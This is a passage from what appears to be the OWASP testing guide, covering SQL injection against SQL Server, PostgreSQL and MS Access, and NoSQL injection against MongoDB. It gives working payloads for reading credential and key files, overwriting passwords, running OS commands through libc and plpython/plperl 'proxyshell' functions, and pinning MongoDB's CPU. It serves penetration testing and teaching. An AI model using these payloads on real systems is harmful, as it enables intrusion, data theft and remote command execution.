1;waitfor delay ''0:0:5'' ') What we do here is to attempt a connection to the local database (specified by the empty field after 'SQLOLEDB') using "sa" and "<pwd>" as credentials. If the password is correct and the connection is successful, the query is executed, making the DB wait for 5 seconds (and also returning a value, since OPENROWSET expects at least one column). Fetching the candidate passwords from a wordlist and measuring the time needed for each connection, we can attempt to guess the correct password. In "Data-mining with SQL Injection and Inference", David Litchfield pushes this technique even further, by injecting a piece of code in order to brute-force the sysadmin password using the CPU resources of the DB Server itself. 
Once we have the sysadmin password, we have two choices: 
. 
Inject all following queries using OPENROWSET, in order to use sysadmin privileges 

. 
Add our current user to the sysadmin group using sp_addsrvrolemember. The current user name can be extracted using inferenced injection against the variable system_user. 


Remember that OPENROWSET is accessible to all users on SQL Server 2000 but it is restricted to administrative accounts on SQL Server 2005. 


Tools 
. 
Francois Larouche: Multiple DBMS SQL Injection tool - [SQL Power Injector] 

. 
Northern Monkee: [Bobcat] 

. 
icesurfer: SQL Server Takeover Tool - [sqlninja] 

. 
Bernardo Damele A. G.: sqlmap, automatic SQL injection tool -http://sqlmap.org/ 


References 
Whitepapers 
. David Litchfield: "Data-mining with SQL Injection and Inference" 
-http://www.databasesecurity.com/webapps/sqlinference.pdf 
. Chris Anley, "(more) Advanced SQL Injection" - 
http://www.encription.co.uk/downloads/more_advanced_sql_ 
injection.pdf 
. 
Steve Friedl's Unixwiz.net Tech Tips: "SQL Injection Attacks by Example" - http://www.unixwiz.net/techtips/sql-injection.html 

. 
Alexander Chigrik: "Useful undocumented extended stored procedures" - http://www.mssqlcity.com/Articles/Undoc/ UndocExtSP.htm 

. 
Antonin Foller: "Custom xp_cmdshell, using shell object" - 

http://www.motobit.com/tips/detpg_cmdshell 

. 
Paul Litwin: "Stop SQL Injection Attacks Before They Stop You" - 

http://msdn.microsoft.com/en-us/magazine/cc163917.aspx 

. 
SQL Injection -http://msdn2.microsoft.com/en-us/library/ ms161953.aspx 

. 
Cesar Cerrudo: Manipulating Microsoft SQL Server Using SQL Injection -http://www.appsecinc.com/presentations/ Manipulating_SQL_Server_Using_SQL_Injection.pdf uploading files, getting into internal network, port scanning, DOS 




OWASP Backend Security Project Testing PostgreSQL
Summary 
In this section, some SQL Injection techniques for PostgreSQL will be discussed. These techniques have the following characteristics: 


. 
PHP Connector allows multiple statements to be executed by using ; as a statement separator 

. 
SQL Statements can be truncated by appending the comment char: --. 

. 
LIMIT and OFFSET can be used in a SELECT statement to retrieve a portion of the result set generated by the query 


From now on it is assumed that http://www.example.com/news. php?id=1 is vulnerable to SQL Injection attacks. 
How to Test 
Identifying PostgreSQL 
When a SQL Injection has been found, you need to carefully fingerprint the backend database engine. You can determine that the backend database engine is PostgreSQL by using the :: cast operator. 
Examples: 
In addition, the function version() can be used to grab the PostgreSQL banner. This will also show the underlying operating system type and version. 
Example: 
 http://www.example.com/store.php?id=1 AND 1::int=1
An example of a banner string that could be returned is: 
 PostgreSQL 8.3.1 on i486-pc-linux-gnu, compiled by GCC cc 
(GCC) 4.2.3 (Ubuntu 4.2.3-2ubuntu4)
Blind Injection 
For blind SQL injection attacks, you should take into consideration the following built-in functions: 
. String Length 
-LENGTH(str) 
. Extract a substring from a given string 
-SUBSTR(str,index,offset) 
. String representation with no single quotes 
-CHR(104)||CHR(101)||CHR(108)||CHR(108)||CHR(111) 
Starting at version 8.2, PostgreSQL introduced a built-in function, pg_sleep(n), to make the current session process sleep for n seconds. This function can be leveraged to execute timing attacks (discussed in detail at Blind SQL Injection). 
In addition, you can easily create a custom pg_sleep(n) in previous versions by using libc: 
. CREATE function pg_sleep(int) RETURNS int AS '/lib/libc.so.6', 'sleep' LANGUAGE 'C' STRICT 
Single Quote unescape 
Strings can be encoded, to prevent single quotes escaping, by using chr() function. 
. chr(n): Returns the character whose ASCII value corresponds to the number n 
. ascii(n): Returns the ASCII value which corresponds to the character n 
Let's say you want to encode the string 'root': 
select ascii('r')
 114
  select ascii('o')
 111
 select ascii('t')
 116 

We can encode 'root' as: 
chr(114)||chr(111)||chr(111)||chr(116)
Example: 
  http://www.example.com/store.php?id=1; UPDATE users 
SET PASSWORD=chr(114)||chr(111)||chr(111)||chr(116)-
Attack Vectors 
Current User 
The identity of the current user can be retrieved with the following SQL SELECT statements: 
 SELECT user
 SELECT current_user
 SELECT session_user
 SELECT usename FROM pg_user
 SELECT getpgusername()

Examples: 
 http://www.example.com/store.php?id=1 UNION ALL SELECT user,NULL,NULL- http://www.example.com/store.php?id=1 UNION ALL SELECT current_user, NULL, NULL-
Current Database 
The built-in function current_database() returns the current database name. 
Example: 
 http://www.example.com/store.php?id=1 UNION ALL SELECT current_database(),NULL,NULL-
Reading from a file 
PostgreSQL provides two ways to access a local file: 
. 
COPY statement 

. 
pg_read_file() internal function (starting from PostgreSQL 8.1) 




COPY: 
This operator copies data between a file and a table. The PostgreSQL engine accesses the local file system as the postgres user. 
Example 
/store.php?id=1; CREATE TABLE file_store(id serial, data text)-/store.php?id=1; COPY file_store(data) FROM '/var/lib/postgresql/.psql_history'-
Data should be retrieved by performing a UNION Query SQL Injection: 
. 
retrieves the number of rows previously added in file_store with COPY statement 

. 
retrieves a row at a time with UNION SQL Injection 


Example: 
/store.php?id=1 UNION ALL SELECT NULL, NULL, max(id)::text FROM file_store LIMIT 1 OFFSET 1;-/store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 1;-/store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 2;-... ... /store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 11;-
pg_read_file(): 
This function was introduced in PostgreSQL 8.1 and allows one to read arbitrary files located inside DBMS data directory. 
Examples: 
. SELECT pg_read_file('server.key',0,1000); 
Writing to a file 
By reverting the COPY statement, we can write to the local file system with the postgres user rights 
/store.php?id=1; COPY file_store(data) TO '/var/lib/postgresql/copy_output'-
Shell Injection 
PostgreSQL provides a mechanism to add custom functions by using both Dynamic Library and scripting languages such as python, perl, and tcl. 
Dynamic Library 
Until PostgreSQL 8.1, it was possible to add a custom function linked with libc: 
. CREATE FUNCTION system(cstring) RETURNS int AS '/lib/libc. so.6', 'system' LANGUAGE 'C' STRICT 
stdout? 
Here's a little trick: 

[1] create a stdout table 
. CREATE TABLE stdout(id serial, system_out text) 
[2] executing a shell command redirecting its stdout 
. SELECT system('uname -a > /tmp/test') 
[3] use a COPY statements to push output of previous command in stdout table 
. COPY stdout(system_out) FROM '/tmp/test' 
[4] retrieve output from stdout 
. SELECT system_out FROM stdout 
Example: 
/store.php?id=1; CREATE TABLE stdout(id serial, system_out text) -- 
/store.php?id=1; CREATE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6','system' LANGUAGE 'C' 
STRICT -
/store.php?id=1; SELECT system('uname -a > /tmp/test') -
/store.php?id=1; COPY stdout(system_out) FROM '/tmp/ 
test' -
/store.php?id=1 UNION ALL SELECT NULL,(SELECT system_out FROM stdout ORDER BY id DESC),NULL LIMIT 1 
OFFSET 1-
plpython 
PL/Python allows users to code PostgreSQL functions in python. It's untrusted so there is no way to restrict what user can do. It's not installed by default and can be enabled on a given database by CREATELANG 
[1] Check if PL/Python has been enabled on a database: 
. SELECT count(*) FROM pg_language WHERE lanname='plpythonu' 
[2] If not, try to enable: 
. CREATE LANGUAGE plpythonu 
[3] If either of the above succeeded, create a proxy shell function: 
. CREATE FUNCTION proxyshell(text) RETURNS text AS 'import os; return os.popen(args[0]).read() 'LANGUAGE plpythonu 
[4] Have fun with: 
. SELECT proxyshell(os command); 
Example: 
[1] Create a proxy shell function: 
. /store.php?id=1; CREATE FUNCTION proxyshell(text) RETURNS text AS 'import os; return os.popen(args[0]).read()' LANGUAGE plpythonu;-- 

Since system returns an int how we can fetch results from system [2] Run an OS Command: 

. /store.php?id=1 UNION ALL SELECT NULL, proxyshell('whoami'), NULL OFFSET 1;-- 
plperl 
Plperl allows us to code PostgreSQL functions in perl. Normally, it is installed as a trusted language in order to disable runtime execution of operations that interact with the underlying operating system, such as open. By doing so, it's impossible to gain OS-level access. To successfully inject a proxyshell like function, we need to install the untrusted version from the postgres user, to avoid the so-called application mask filtering of trusted/untrusted operations. 
[1] Check if PL/perl-untrusted has been enabled: 
. SELECT count(*) FROM pg_language WHERE lanname='plperlu' 
[2] If not, assuming that sysadm has already installed the plperl package, try : 
. CREATE LANGUAGE plperlu 
[3] If either of the above succeeded, create a proxy shell function: 
. CREATE FUNCTION proxyshell(text) RETURNS text AS 'open(FD,"$_[0] |");return join("",<FD>);' LANGUAGE plperlu 
[4] Have fun with: 
. SELECT proxyshell(os command); 
Example: 
[1] Create a proxy shell function: 
. /store.php?id=1; CREATE FUNCTION proxyshell(text) RETURNS text AS 'open(FD,"$_[0] |");return join("",<FD>);' LANGUAGE plperlu; 
[2] Run an OS Command: 
. /store.php?id=1 UNION ALL SELECT NULL, proxyshell('whoami'), NULL OFFSET 1;-- 
References 
. 
OWASP : "Testing for SQL Injection" 

. 
OWASP : SQL Injection Prevention Cheat Sheet 

. 
PostgreSQL : "Official Documentation" - 

http://www.postgresql.org/docs/ 

. 
Bernardo Damele and Daniele Bellucci: sqlmap, a blind SQL injec tion tool -http://sqlmap.sourceforge.net 




Testing for MS Access
Summary 
As explained in the generic SQL injection section, SQL injection vulnerabilities occur whenever user-supplied input is used during the construction of a SQL query without being adequately constrained or sanitized. This class of vulnerabilities allows an attacker to execute SQL code under the privileges of the user that is used to connect to the database. In this section, relevant SQL injection techniques that utilize specific features of Microsoft Access will be discussed. 
How to Test 
Fingerprinting 
Fingerprinting the specific database technology while testing SQL-powered application is the first step to properly asses potential vulnerabilities. A common approach involves injecting standard SQL injection attack patterns (e.g. single quote, double quote, ...) in order to trigger database exceptions. Assuming that the application does not handle exceptions with custom pages, it is possible to fingerprint the underline DBMS by observing error messages. 
Depending on the specific web technology used, MS Access driven applications will respond with one of the following errors: 
Fatal error: Uncaught exception 'com_exception' with mes
sage Source: Microsoft JET Database Engine 
or 
Microsoft JET Database Engine error '80040e14' 
or Microsoft Office Access Database Engine 
In all cases, we have a confirmation that we're testing an application using MS Access database. 
Basic Testing 
Unfortunately, MS Access doesn't support typical operators that are traditionally used during SQL injection testing, including: 
. 
No comments characters 

. 
No stacked queries 

. 
No LIMIT operator 

. 
No SLEEP or BENCHMARK alike operators 

. 
and many others 


Nevertheless, it is possible to emulate those functions by combining multiple operators or by using alternative techniques. As mentioned, it is not possible to use the trick of inserting the characters /*, -- or # in order to truncate the query. However, we can fortunately bypass this limitation by injecting a 'null' character. Using a null byte %00 within a SQL query results in MS Access ignoring all remaining characters. This can be explained by considering that all strings are NULL terminated in the internal representation used by the database. It is worth mentioning that the 'null' character can sometimes cause troubles too as it may truncate strings at the web server level. In those situations, we can however employ another character: 0x16 (%16 in URL encoded format). 
Considering the following query: 
SELECT [username],[password] FROM users WHERE [user
name]='$myUsername' AND [password]='$myPassword' 
We can truncate the query with the following two URLs: 
http://www.example.com/page.asp?user=admin'%00&
pass=foo 
http://www.example.com/page.app?user=admin'%16&
pass=foo The LIMIT operator is not implemented in MS Access, however it is possible to limit the number of results by using the TOP or LAST operators instead. 


http://www.example.com/page.app?id=2'+UNION+SE
LECT+TOP+3+name+FROM+appsTable%00 
By combining both operators, it is possible to select specific re
sults. String concatenation is possible by using & (%26) and + (%2b) 
characters. 
There are also many other functions that can be used while testing SQL injection, including but not limited to: 
. 
ASC: Obtain the ASCII value of a character passed as input 

. 
CHR: Obtain the character of the ASCII value passed as input 

. 
LEN: Return the length of the string passed as parameter 

. 
IIF: Is the IF construct, for example the following statement IIF(1=1, 'a', 'b') return 'a' 

. 
MID: This function allows you to extract substring, for example the following statement mid('abc',1,1) return 'a' 

. 
TOP: This function allows you to specify the maximum number of results that the query should return from the top. For example TOP 1 will return only 1 row. 

. 
LAST: This function is used to select only the last row of a set of rows. For example the following query SELECT last(*) FROM users will return only the last row of the result. 


Some of these operators are essential to exploit blind SQL injections. For other advanced operators, please refer to the documents in the references. 
Attributes Enumeration 
In order to enumerate the column of a database table, it is possible to use a common error-based technique. In short, we can obtain the attributes name by analyzing error messages and repeating the query with different selectors. For example, assuming that we know the existence of a column, we can also obtain the name of the remaining attributes with the following query: 
' GROUP BY Id%00 
In the error message received, it is possible to observe the name of the next column. At this point, we can iterate the method until we obtain the name of all attributes. If we don't know the name of the first attribute, we can still insert a fictitious column name and obtain the name of the first attribute within the error message. 
Obtaining Database Schema 
Various system tables exist by default in MS Access that can be potentially used to obtain table names and columns. Unfortunately, in the default configuration of recent MS Access database releases, these tables are not accessible. Nevertheless, it is always worth trying: 
. 
MSysObjects 

. 
MSysACEs 

. 
MSysAccessXML 


For example, if a union SQL injection vulnerability exists, you can use the following query: 
' UNION SELECT Name FROM MSysObjects WHERE Type = 
1%00 
Alternatively, it is always possible to bruteforce the database schema by using a standard wordlist (e.g. FuzzDb). 
In some cases, developers or system administrators do not realize that including the actual .mdb file within the application webroot can allow to download the entire database. Database filenames can be inferred with the following query: 
http://www.example.com/page.app?id=1'+UNION+SE
LECT+1+FROM+name.table%00 
where name is the .mdb filename and table is a valid database table. In case of password protected databases, multiple software utilities can be used to crack the password. Please refer to the references. 
Blind SQL Injection Testing 
Blind SQL Injection vulnerabilities are by no means the most easily exploitable SQL injections while testing real-life applications. In case of recent versions of MS Access, it is also not feasible to execute shell commands or read/write arbitrary files. 
In case of blind SQL injections, the attacker can only infer the result of the query by evaluating time differences or application responses. It is supposed that the reader already knows the theory behind blind SQL injection attacks, as the remaining part of this section will focus on MS Access specific details. 
The following example is used: 
http://www.example.com/index.php?myId=[sql] 
where the id parameter is used within the following query: 
SELECT * FROM orders WHERE [id]=$myId 
Let's consider the myId parameter vulnerable to blind SQL injection. As an attacker, we want to extract the content of column 'username' in the table 'users', assuming that we have already disclosed the database schema. 
A typical query that can be used to infer the first character of the user-name of the 10th rows is: 
http://www.example.com/index.php?id=IIF((select%20 
MID(LAST(username),1,1)%20from%20(select%20TOP%20 
10%20username%20from%20users))='a',0,'no') 
If the first character is 'a', the query will return 0 or otherwise the string 'no'. 
By using a combination of the IFF, MID, LAST and TOP functions, it is possible to extract the first character of the username on a specifically selected row. As the inner query returns a set of records, and not just one, it is not possible to use it directly. Fortunately, we can combine multiple functions to extract a specific string. 


Let's assume that we want to retrieve the username of the 10th row. First, we can use the TOP function to select the first ten rows using the following query: 
SELECT TOP 10 username FROM users
Then, using this subset, we can extract the last row by using the LAST function. Once we have only one row and exactly the row containing our string, we can use the IFF, MID and LAST functions to infer the actual value of the username. In our example, we employ IFF to return a number or a string. Using this trick, we can distinguish whether we have a true response or not, by observing application error responses. As id is numeric, the comparison with a string results in a SQL error that can be potentially leaked by 500 Internal Server Error pages. Otherwise, a standard 200 OK page will be likely returned. For example, we can have the following query: 
http://www.example.com/index.php?id='%20AND%20 
1=0%20OR%20'a'=IIF((select%20MID(LAST(user
name),1,1)%20from%20(select%20TOP%2010%20user
name%20from%20users))='a','a','b')%00 
that is TRUE if the first character is 'a' or false otherwise. 
As mentioned, this method allows to infer the value of arbitrary strings within the database: 
[1] By trying all printable values, until we find a match 
[2] By inferring the length of the string using the LEN function, or by simply stopping after we have found all characters 
Time-based blind SQL injections are also possible by abusing heavy queries. 
References 
. 
http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html 

. 
http://packetstormsecurity.com/files/65967/Access-ThroughAccess.pdf.html 

. 
http://seclists.org/pen-test/2003/May/74 

. 
http://www.techonthenet.com/access/functions/index_ alpha.php 

. 
http://en.wikipedia.org/wiki/Microsoft_Access 




Testing for NoSQL injection
Summary 
NoSQL databases provide looser consistency restrictions than traditional SQL databases. By requiring fewer relational constraints and consistency checks, NoSQL databases often offer performance and scaling benefits. Yet these databases are still potentially vulnerable to injection attacks, even if they aren't using the traditional SQL syntax. Because these NoSQL injection attacks may execute within a procedural[1] language , rather than in the declarative[2] SQL language, the potential impacts are greater than traditional SQL injection. 
NoSQL database calls are written in the application's programming language, a custom API call, or formatted according to a common convention (such as XML, JSON, LINQ, etc). Malicious input targeting those specifications may not trigger the primarily application sanitization checks. For example, filtering out common 
HTML special characters such as < > & ; will not prevent attacks 
against a JSON API, where special characters include / { } : . 
There are now over 150 NoSQL databases available[3] for use within an application, providing APIs in a variety of languages and relationship models. Each offers different features and restrictions. Because there is not a common language between them, example injection code will not apply across all NoSQL databases. For this reason, anyone testing for NoSQL injection attacks will need to familiarize themselves with the syntax, data model, and underlying programming language in order to craft specific tests. 
NoSQL injection attacks may execute in different areas of an application than traditional SQL injection. Where SQL injection would execute within the database engine, NoSQL variants may execute during within the application layer or the database layer, depending on the NoSQL API used and data model. Typically NoSQL injection attacks will execute where the attack string is parsed, evaluated, or concatenated into a NoSQL API call. 
Additional timing attacks may be relevant to the lack of concurrency checks within a NoSQL database. These are not covered under injection testing. At the time of writing MongoDB is the most widely used NoSQL database, and so all examples will feature MongoDB APIs. 
How to Test 
Testing for NoSQL injection vulnerabilities in MongoDB: 
The MongoDB API expects BSON (Binary JSON) calls, and includes a secure BSON query assembly tool. However, according to MongoDB documentation - unserialized JSON and JavaScript expressions are permitted in several alternative query parameters.[4] The most commonly used API call allowing arbitrary JavaScript input is the $where operator. 
The MongoDB $where operator typically is used as a simple filter or check, as it is within SQL. 
 db.myCollection.find( { $where: "this.credits == this.debits" 
} ); 
Optionally JavaScript is also evaluated to allow more advanced conditions. 
 db.myCollection.find( { $where: function() { return obj.credits 
- obj.debits < 0; } } ); 
Example 1 
If an attacker were able to manipulate the data passed into the $where operator, that attacker could include arbitrary JavaScript to be evaluated as part of the MongoDB query. An example vulnerability is exposed in the following code, if user input is passed directly into the MongoDB query without sanitization. 


b.myCollection.find( { active: true, $where: function() { return 
obj.credits - obj.debits < $userInput; } } );; 
As with testing other types of injection, one does not need to fully exploit the vulnerability to demonstrate a problem. By injecting special characters relevant to the target API language, and observing the results, a tester can determine if the application correctly sanitized the input. For example within MongoDB, if a string containing any of the following special characters were passed unsanitized, it would trigger a database error. 
' " \ ; { } 
With normal SQL injection, a similar vulnerability would allow an attacker to execute arbitrary SQL commands - exposing or manipulating data at will. However, because JavaScript is a fully featured language, not only does this allow an attacker to manipulate data, but also to run arbitrary code. For example, instead of just causing an error when testing, a full exploit would use the special characters to craft valid JavaScript. 
This input 0;var date=new Date(); do{curDate = new Date();} while(curDate-date<10000) inserted into $userInput in the above example code would result in the following JavaScript function being executed. This specific attack string would case the entire MongoDB instance to execute at 100% CPU usage for 10 second. 
function() { return obj.credits - obj.debits < 0;var 
date=new Date(); do{curDate = new Date();}while(cur
Date-date<10000); } 
Example 2 
Even if the input used within queries is completely sanitized or parameterized, there is an alternate path in which one might trigger NoSQL injection. Many NoSQL instances have their own reserved variable names, independent of the application programming language. 
For example within MongoDB, the $where syntax itself is a reserved query operator. It needs to be passed into the query exactly as shown; any alteration would cause a database error. However, because $where is also a valid PHP variable name, it may be possible for an attacker to insert code into the query by creating a PHP variable named $where. The PHP MongoDB documentation explicitly warns developers: 
Please make sure that for all special query operators (start
ing with $) you use single quotes so that PHP doesn't try to 
replace "$exists" with the value of the variable $exists. 
Even if a query depended on no user input, such as the following example, an attacker could exploit MongoDB by replacing the operator with malicious data. 
db.myCollection.find( { $where: function() { return obj.credits 
- obj.debits < 0; } } ); One way to potentially assign data to PHP variables is via HTTP Parameter Pollution (see: Testing_for_HTTP_Parameter_pollution_(OTG-INPVAL-004)). By creating a variable named $where via parameter pollution, one could trigger a MongoDB error indicating that the query is no longer valid. Any value of $where other than the string "$where" itself, should suffice to demonstrate vulnerability. An attacker would develop a full exploit by inserting the following: "$where: function() { //arbitrary JavaScript here }" 
References 
Whitepapers 
. Bryan Sullivan from Adobe: "Server-Side JavaScript Injection" 
-https://media.blackhat.com/bh-us-11/Sullivan/BH_US_11_ Sullivan_Server_Side_WP.pdf 
. Bryan Sullivan from Adobe: "NoSQL, But Even Less Security" 
-http://blogs.adobe.com/asset/files/2011/04/NoSQL-ButEven-Less-Security.pdf 

. 
Erlend from Bekk Consulting: "[Security] NOSQL-injection" - 

http://erlend.oftedal.no/blog/?blogid=110 

. 
Felipe Aragon from Syhunt: "NoSQL/SSJS Injection" - 

http://www.syhunt.com/?n=Articles.NoSQLInjection 

. 
MongoDB Documentation: "How does MongoDB address SQL or Query injection?" - http://docs.mongodb.org/manual/ faq/developers/#how-does-mongodb-address-sql-or-queryinjection 

. 
PHP Documentation: "MongoCollection::find" - 

http://php.net/manual/en/mongocollection.find.php 

. 
"Hacking NodeJS and MongoDB" - 


http://blog.websecurify.com/2014/08/hacking-nodejs-and
mongodb.html 
. "Attacking NodeJS and MongoDB" - http://blog.websecurify. com/2014/08/attacks-nodejs-and-mongodb-part-to.html 